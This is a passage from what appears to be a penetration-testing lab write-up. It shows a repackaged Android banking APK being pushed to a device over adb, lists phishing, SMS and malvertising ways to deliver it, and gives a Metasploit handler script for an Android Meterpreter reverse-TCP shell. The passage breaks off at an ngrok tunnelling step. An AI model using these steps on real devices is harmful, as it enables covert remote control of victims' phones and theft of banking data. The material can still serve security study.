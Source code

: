 Expected output: `jar verified.`

---

## Phase 3: Deployment via ADB

### Transfer to Target Device

```bash
# Verify device connection
adb devices

# Push APK to Downloads folder
adb push signed_mybank.apk /sdcard/Download/
```

**Delivery vector simulation:** In a real-world scenario, this APK would be delivered via:
- Phishing email attachment
- SMS with download link
- Compromised website
- Malicious ad (malvertising)

---

## Phase 4: Command & Control Setup

### Local C2 Configuration

Created an automated resource script for Metasploit:

```bash
nano exploit.rc
```

**exploit.rc content:**
```ruby
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
set ExitOnSession false
exploit -j -z
```

Launch the handler:
```bash
msfconsole -q -r exploit.rc
```

---

## Phase 5: Remote C2 with ngrok

For remote access scenarios, we established a tunnel using ngrok:
